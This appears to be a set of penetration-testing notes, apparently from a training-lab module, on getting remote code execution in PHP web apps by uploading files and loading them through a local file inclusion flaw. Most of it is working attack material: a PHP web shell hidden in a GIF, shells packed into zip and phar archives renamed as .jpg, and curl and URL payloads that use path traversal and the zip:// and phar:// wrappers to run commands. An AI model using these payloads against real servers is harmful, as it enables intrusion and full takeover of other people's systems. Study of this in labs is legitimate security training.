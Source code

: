 File upload functionalities are ubiquitous in most modern web applications, as users usually need to configure their profile and usage of the web application by uploading their data. For attackers, the ability to store files on the back-end server may extend the exploitation of many vulnerabilities, like a file inclusion vulnerability.

If the vulnerable function has code `Execute` capabilities, then the code within the file we upload will get executed if we include it, regardless of the file extension or file type. For example, we can upload an image file (e.g. `image.jpg`), and store a PHP web shell code within it 'instead of image data', and if we include it through the LFI vulnerability, the PHP code will get executed and we will have remote code execution.

### Image upload
Image upload is very common in most modern web applications, as uploading images is widely regarded as safe if the upload function is securely coded.

```bash
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```

Find upload path
![](https://academy.hackthebox.com/storage/modules/23/lfi_upload_gif.jpg)

```html
<img src="/profile_images/shell.gif" class="profile-image" id="profile-image">
```

Exploit
```bash
curl http://94.237.54.42:42058/index.php?language=./profile_images/shell.gif&cmd=id

curl http://10.10.10.10/index.php?language=../../../../../../../profile_images/shell.gif&cmd=id
```

### Zip Upload
We can utilize the [zip](https://www.php.net/manual/en/wrappers.compression.php) wrapper to execute PHP code. However, this wrapper isn't enabled by default, so this method may not always work. To do so, we can start by creating a PHP web shell script and zipping it into a zip archive (named `shell.jpg`), as follows:

[Attack in blog](https://rioasmara.com/2021/07/25/php-zip-wrapper-for-rce/?source=post_page-----b49a52ed8e38--------------------------------)

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
```

```bash
curl http://10.10.10.10./index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id

curl http://10.10.10.10./index.php?language=zip://../../../../../profile_images/shell.jpg%23shell.php&cmd=id
```

### Phar Upload
Finally, we can use the `phar://` wrapper to achieve a similar result. To do so, we will first write the following PHP script into a `shell.php` file:

```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```

Compile
```bash
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```

```bash
http://10.10.10.10/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id
```